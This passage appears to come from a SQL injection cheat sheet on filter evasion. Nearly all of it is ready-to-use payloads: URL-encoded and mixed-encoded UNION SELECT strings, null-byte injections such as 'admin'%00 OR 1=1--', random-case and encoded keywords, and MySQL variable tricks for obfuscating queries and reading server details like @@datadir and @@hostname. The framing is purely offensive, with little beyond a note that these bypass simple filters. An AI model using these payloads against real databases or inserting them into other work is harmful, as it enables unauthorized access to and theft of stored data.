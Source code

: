 #### Mixed Encoding Techniques
```sql
-- Partial encoding
'%20UNION%20SELECT user()--
%27 UNION SELECT user()%2D%2D

-- Context-specific encoding
' UNION SELECT CHAR(%34%39) -- Mixed approaches
```

### Null Byte Case Variation

Using null bytes and case variations to bypass simple filters.

#### Null Byte Injection
```sql
-- Null byte termination
admin'%00 OR 1=1--

-- Null byte in middle
ad%00min' OR 1=1--

-- Multiple null bytes
%00admin%00' OR 1=1--%00
```

#### Case Variation Strategies
```sql
-- Random case variation
sElEcT * FrOm UsErS
UnIoN sElEcT uSeR(), DaTaBaSe()

-- Alternating case
SeLeCt * fRoM uSeRs
UnIoN sElEcT uSeR(), dAtAbAsE()

-- Mixed with encoding
SEL%45CT * FR%4fM users
UN%49ON SEL%45CT user(), database()
```

### Variable Declaration Evasion

Using database-specific variable declaration to obfuscate attacks.

#### MySQL Variables
```sql
-- User-defined variables
SET @query = 'SELECT * FROM users';
SET @table = 'users';
SET @sql = CONCAT('SELECT * FROM ', @table);

-- System variables
SELECT @@version, @@datadir, @@hostname
```

